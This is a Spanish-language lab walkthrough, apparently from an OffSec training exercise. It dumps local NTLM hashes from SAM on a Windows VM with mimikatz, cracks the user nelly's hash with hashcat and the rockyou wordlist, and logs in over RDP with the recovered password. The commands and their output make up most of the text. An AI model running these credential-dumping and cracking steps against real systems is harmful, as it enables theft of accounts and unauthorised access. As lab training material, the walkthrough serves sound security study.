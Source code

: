 # Walk: Password Attacks - Cracking NTLM - VM #1

## Fecha: 24/02/2025
## Host: Windows
## IP: 192.168.155.210
## Objetivo
Follow the steps outlined in this section and find the flag on the _nelly_ user's desktop on VM #1 (MARKETINGWK01).
## Herramientas
1. xfreerdp
2. hashcat
3. mimikatz
## Procedimiento y comandos
#### Paso 1: Obtenemos el hash de nelly de SAM
> _"los hashes NTLM se almacenan en la base de datos SAM"_
- Sabiendo esto y conectado a offsec/lab por **rdp** obtenemos desde este usuario el hash de _**nelly**_
1. Determinamos los usuarios existentes en el sisitema:
`Get-LocalUser`
```
Name Enabled Description
---- ------- -----------
Administrator False Built-in account for administering the computer/domain
DefaultAccount False A user account managed by the system.
Guest False Built-in account for guest access to the computer/domain
nelly True
offsec True
WDAGUtilityAccount False A user account managed and used by the system for Windows Defender Application Guard scen...
```
2. Ejecutamos mimikatz:
```
PS C:\Windows\system32> cd C:\tools
PS C:\tools> ls
Directory: C:\tools
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 5/31/2022 12:25 PM 1355680 mimikatz.exe
PS C:\tools> .\mimikatz.exe
.#####. mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
.## ^ ##. "A La Vie, A L'Amour" - (oe.eo)
## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
## \ / ## > https://blog.gentilkiwi.com/mimikatz
'## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )
'#####' > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```
3. Obtenemos el hash elevando nuestros privilegios a **System**
	- `privilege::debug` habilitamos _**SeDebugPrivilege**_ para poder ejecutar el resto de los comandos.
	- `token::elevate` eleva nuestros privilegios a _system_ para poder obtener el hash.
	- `lsadump::sam` extrae las passwords de SAM.
```
mimikatz #  privilege::debug
Privilege '20' OK
mimikatz #  token::elevate
Token Id : 0
User name :
SID name : NT AUTHORITY\SYSTEM
656 {0;000003e7} 1 D 34811 NT AUTHORITY\SYSTEM S-1-5-18 (04g,21p) Primary
-> Impersonated !
* Process Token : {0;000413a0} 1 F 6146616 MARKETINGWK01\offsec S-1-5-21-4264639230-2296035194-3358247000-1001 (14g,24p) Primary
* Thread Token : {0;000003e7} 1 D 6217216 NT AUTHORITY\SYSTEM S-1-5-18 (04g,21p) Impersonation (Delegation)
mimikatz #  lsadump::sam
Domain : MARKETINGWK01
SysKey : 2a0e15573f9ce6cdd6a1c62d222035d5
Local SID : S-1-5-21-4264639230-2296035194-3358247000
RID : 000003e9 (1001)
User : offsec
Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
RID : 000003ea (1002)
User : nelly
Hash NTLM: 3ae8e5f0ffabb3a627672e1600f1ba10
...
```
#### Paso 2: Creckeamos el hash
- Una vez obtenido el hash _**3ae8e5f0ffabb3a627672e1600f1ba10**_ procedemos a crackearlo en kali.
1. Guardamos el hash: `echo "3ae8e5f0ffabb3a627672e1600f1ba10" > nelly.hash`
2. Averiguamos el modo: `hashcat -h | grep "ntlm"`
```
   5500 | NetNTLMv1 / NetNTLMv1+ESS                                  | Network Protocol
  27000 | NetNTLMv1 / NetNTLMv1+ESS (NT)                             | Network Protocol
   5600 | NetNTLMv2                                                  | Network Protocol
  27100 | NetNTLMv2 (NT)                                             | Network Protocol
   1000 | NTLM                                                       | Operating System
```
3. Ejecutamos **hashcat** para crackear el hash:
`hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`
```
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 1104517645

3ae8e5f0ffabb3a627672e1600f1ba10:nicole1                  
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 3ae8e5f0ffabb3a627672e1600f1ba10
Time.Started.....: Mon Feb 24 13:22:39 2025, (1 sec)
Time.Estimated...: Mon Feb 24 13:22:40 2025, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Mod........: Rules (/usr/share/hashcat/rules/best64.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3814.9 kH/s (6.06ms) @ Accel:128 Loops:77 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 78848/1104517645 (0.01%)
Rejected.........: 0/78848 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-77 Iteration:0-77
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> bnybny
Hardware.Mon.#1..: Temp: 61c Util: 14%
```
#### Paso 3: Obtenemos el hash:
1. Nos conectamos al usuario de nelly con sus credenciales por **rdp**
`xfreerdp /v:192.168.155.210 /u:nelly /p:nicole1 +clipboard /cert:ignore `
